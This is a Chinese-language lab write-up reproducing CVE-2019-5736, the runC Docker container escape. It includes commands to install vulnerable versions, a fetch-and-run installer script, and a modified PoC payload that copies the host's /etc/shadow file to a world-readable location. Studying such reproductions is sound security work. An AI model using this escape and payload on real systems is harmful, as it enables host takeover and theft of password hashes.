










# CVE-2019-5736 Docker逃逸 复现

<p align="center">
    
</p>

---

## 免责声明

`本文档仅供学习和研究使用,请勿使用文中的技术源码用于非法用途,任何人造成的任何负面影响,与本人无关.`

---

**实验环境**

`环境仅供参考`

- VMware® Workstation 15 Pro - 15.0.0 build-10134415
- Centos7
- docker : 18.06.0-ce
- runC : 1.0.0-rc6

---

# 安装环境

**漏洞影响版本**
- Docker Version < 18.09.2
- runC Version <= 1.0-rc6

---

**修改 runC 版本**

默认 runC 版本是无法复现该漏洞的,需要手动修改
```bash
wget https://github.com/opencontainers/runc/releases/download/v1.0.0-rc6/runc.amd64
mv runc.amd64 /usr/bin/runc
chmod +x /usr/bin/runc
runc --version
```



**安装 docker**
```bash
yum install epel-release
wget https://gist.githubusercontent.com/thinkycx/e2c9090f035d7b09156077903d6afa51/raw/
chmod +x index.html
./index.html
```

使用安装完毕后,可能会自动进入 docker 容器,这里不管,直接重启机器



**启动容器**

等待机器重启完毕,这里启动 docker 服务,然后进入 docker 容器
```bash
sudo systemctl start docker
docker run -it ubuntu:18.04 "/bin/bash"
```



再启一个 bash,同时这个窗口不要关闭,看一下 docker 容器的 ID
```bash
docker ps
```



**下载 payload**

- https://github.com/Frichetten/CVE-2019-5736-PoC

下载的 main.go,修改下 package,改成,payload 也稍微修改
```
package main

var payload = "#!/bin/bash \n cat /etc/shadow > /tmp/shadow && chmod 777 /tmp/shadow"
```

然后 windows 下需配置编译参数,linux 可直接编译
```
CGO_ENABLED=0;GOOS=linux;GOARCH=amd64
go build main.go
```

把编译出来的二进制文件 main,上传至目标机器



**使用 payload**

这里将 main 复制到容器的 /home 目录下,id 值就是之前 docker ps 看到的值
```bash
docker cp main xxxxxxxxx:/home
```



回到一开始的窗口,现在进入 home 目录,就可以看到上传上来的 main 文件了,加权限,运行
```bash
cd /home
ls
chmod +x main
./main
```



这里再返回到第二个窗口,这个窗口刚上传 main 文件,现在再这个窗口里进入容器,触发 payload,id 值就是之前 docker ps 看到的值
```bash
docker exec -it xxxxxxxxx /bin/sh
exit
cd /tmp/
ls
```







可以看到，宿主机下 tmp 写了 shadow 文件，payload 成功执行
